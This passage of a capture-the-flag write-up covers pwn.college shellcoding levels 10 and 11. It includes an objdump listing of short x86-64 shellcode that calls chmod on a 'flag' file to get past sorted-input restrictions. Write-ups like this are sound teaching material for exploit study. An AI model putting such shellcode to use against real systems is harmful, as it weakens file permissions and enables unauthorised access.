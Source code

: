 * Since the hexcode for the `execve` syscall is `0x3b` as well, we can push `$rax` and then pop it back in to `$rdi` as the file-path argument.
* This saves precious bytes. Credit goes to [ctfwriteup.com](https://www.ctfwriteup.com/pwn/pwn.college/shellcoding/babyshell#level-1).



## level 10

> Write and execute shellcode to read the flag, but your input is sorted before being executed!

* This level mangles / sorts our shellcode after every 16 bytes.
* Since the code from level 4 fits in 14 bytes, it won't get mangled and we can get the flag.

```
~$ objdump -d shellcode -M intel

0000000000001000 <_start>:
    1000:       68 66 6c 61 67          push   0x67616c66
    1005:       54                      push   rsp
    1006:       5f                      pop    rdi
    1007:       40 b6 04                mov    sil,0x4
    100a:       b0 5a                   mov    al,0x5a
    100c:       0f 05                   syscall 
```



## level 11

> Write and execute shellcode to read the flag, but your input is sorted before being executed and stdin is closed.

* Again level mangles / sorts our shellcode after every 16 bytes and since the are using `chmod`, we don't care about stdin being closed.
* The code from level 4 will work here as well.

